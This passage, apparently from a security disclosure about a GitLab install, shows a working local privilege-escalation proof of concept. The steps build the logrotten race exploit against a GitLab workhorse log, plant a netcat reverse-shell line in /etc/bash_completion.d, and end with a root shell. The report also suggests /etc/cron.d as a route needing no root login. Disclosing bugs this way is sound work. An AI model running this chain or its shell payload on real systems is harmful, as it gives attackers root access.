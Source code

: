 ### Relevant logs and/or screenshots

#### Exploitation

Proof of concept:
```
git@Stretch64:~$ git clone https://github.com/whotwagner/logrotten.git /tmp/logrotten
Cloning into '/tmp/logrotten'...
remote: Enumerating objects: 84, done.
remote: Counting objects: 100% (84/84), done.
remote: Compressing objects: 100% (58/58), done.
remote: Total 84 (delta 35), reused 64 (delta 24), pack-reused 0
Unpacking objects: 100% (84/84), done.
git@Stretch64:~$ cd /tmp/logrotten && gcc -o logrotten logrotten.c
git@Stretch64:/tmp/logrotten$ ./logrotten -c /var/log/gitlab/gitlab-workhorse/something.log
Waiting for rotating /var/log/gitlab/gitlab-workhorse/something.log...
Renamed /var/log/gitlab/gitlab-workhorse with /var/log/gitlab/gitlab-workhorse2 and created symlink to /etc/bash_completion.d
Done!
git@Stretch64:/tmp/logrotten$ ls -l /etc/bash_completion.d/
total 20
-rw-r--r-- 1 root root   439 Sep 28  2018 git-prompt
-rw-r--r-- 1 root root 11144 Oct 28  2018 grub
-rw-r--r-- 1 git  git     33 May 12 18:44 something.log.1.gz
git@Stretch64:/tmp/logrotten$ echo  "if [ \`id -u\` -eq 0 ]; then (/bin/nc -e /bin/bash localhost 3333 &); fi" > /etc/bash_completion.d/something.log.1.gz
git@Stretch64:/tmp/logrotten$ nc -nvlp 3333
listening on [any] 3333 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 55526
id
uid=0(root) gid=0(root) groups=0(root)
ls -la
total 32
drwx------  4 root root 4096 May 12 18:47 .
drwxr-xr-x 22 root root 4096 Apr 25 18:31 ..
-rw-------  1 root root 1405 May 12 19:59 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwx------  3 root root 4096 May 12 18:47 .config
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwx------  2 root root 4096 Apr 25 18:40 .ssh
-rw-------  1 root root 2194 May 12 17:29 .viminfo

```

Please note that for this example the exploit writes into /etc/bash_completion.d which requires that root logs in. It might be possible to exploit this bug without interaction of user root by writing into /etc/cron.d or anything similar.

### Output of checks

This bug was verified using the following installation methods:
